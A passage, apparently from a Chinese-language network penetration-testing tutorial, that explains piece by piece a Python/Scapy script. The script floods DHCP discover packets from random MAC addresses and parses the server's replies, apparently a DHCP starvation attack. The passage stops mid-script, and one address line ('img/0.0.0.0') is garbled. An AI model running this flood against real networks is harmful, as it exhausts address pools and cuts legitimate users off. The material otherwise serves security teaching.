 在上一张截图中，租约显示为六小时。

让我们看看代码；它有点难以理解，所以我把它分成不同的部分并解释了每一部分：

+   导入必要的库和模块如下：

```py
      from scapy.all import *
      import time
      import socket
      import struct
```

+   创建原始套接字以接收 IP 数据包如下：

```py
      s = socket.socket(socket.PF_PACKET, socket.SOCK_RAW, 
      socket.ntohs(0x0800))
      i = 1
```

+   使用 while 循环连续发送数据包：

```py
      while True:
```

+   使用 Scapy 创建以太网和 IP 数据包如下：

```py
    eth1 = Ether(src=RandMAC(),dst="ff:ff:ff:ff:ff:ff")
    ip1 = IP(src="img/0.0.0.0",dst="255.255.255.255")
```

+   使用 Scapy 创建 UDP 和 bootp 数据包如下：

```py
    udp1= UDP(sport=68,dport=67)
    bootp1= BOOTP(chaddr=RandString(12,'0123456789abcdef'))
```

+   创建 DHCP 发现和 DHCP 请求数据包如下：

```py
    dhcp1 = DHCP(options=[("message-type","discover"),"end"])
    dhcp2 = DHCP(options=[("message-type","request")])
    dhcp_discover = eth1/ip1/udp1/bootp1/dhcp1
    dhcp_discover[BOOTP].xid= 123456
```

+   只需使用 Scapy 发送 DHCP 发现数据包并使用原始套接字接收响应如下：

```py
    sendp(dhcp_discover)
    pkt = s.recvfrom(2048)
    num = pkt[0][14].encode('hex')
    ip_length = (int(num) % 10) * 4
    ip_last_range = 14 + ip_length
    ipheader = pkt[0][14:ip_last_range]
    ip_hdr = struct.unpack("!12s4s4s",ipheader)
    server_ip = socket.inet_ntoa(ip_hdr[1])
    obtained_ip = socket.inet_ntoa(ip_hdr[2])

```
